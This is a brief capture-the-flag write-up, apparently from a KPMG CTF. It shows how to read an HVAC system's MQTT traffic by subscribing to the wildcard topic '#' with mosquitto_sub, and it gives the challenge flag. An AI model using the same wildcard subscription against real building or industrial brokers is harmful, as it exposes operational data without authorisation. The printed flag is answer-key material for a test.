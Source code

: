 


You have access to a HVAC management system that is implemented using mqtt protocol. Try to subscribe to all the subtopics on the server to gain access to the information being shared.


Connect to it using mosquito client

``` shell

mosquitto_sub -h 0.cloud.chals.io -p 30696 -t '#' -v

```

![[Pasted image 20240810173216.png]]

The flag is `KPMG_CTF{kCTNkYvdbI_kPzMGiwemUgJt0GAMRd2lFKP4JvrMENgPyGqmImKis4a1vVkPnOZTwwxnhsBdZB59vV1gPw58Zd9UQnvGhbE3u4SjLw7T}`